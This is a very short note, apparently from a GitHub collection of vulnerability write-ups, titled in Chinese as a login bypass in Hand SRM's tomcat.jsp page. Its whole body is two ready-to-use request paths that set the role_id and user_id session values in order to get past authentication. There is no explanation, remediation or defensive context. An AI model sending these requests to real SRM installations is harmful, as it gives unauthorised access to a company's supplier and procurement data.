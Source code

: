 ## 汉得SRM tomcat.jsp 登录绕过漏洞 

```

/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```
